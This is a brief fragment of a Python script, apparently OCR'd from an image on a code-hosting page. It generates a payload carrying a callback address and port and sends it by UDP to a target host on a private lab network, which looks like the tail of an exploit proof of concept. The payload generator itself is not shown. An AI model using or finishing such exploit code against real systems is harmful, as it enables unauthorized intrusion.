 ```
    out+=lengpadding

    return out
    
payload=Gen_payload('192.168.159.128',6666)
sock=socket.socket(socket.AF_INET,socket.SOCK_DGRAM)
sock.sendto(payload,("192.168.159.133",2345))  # 任意端口


```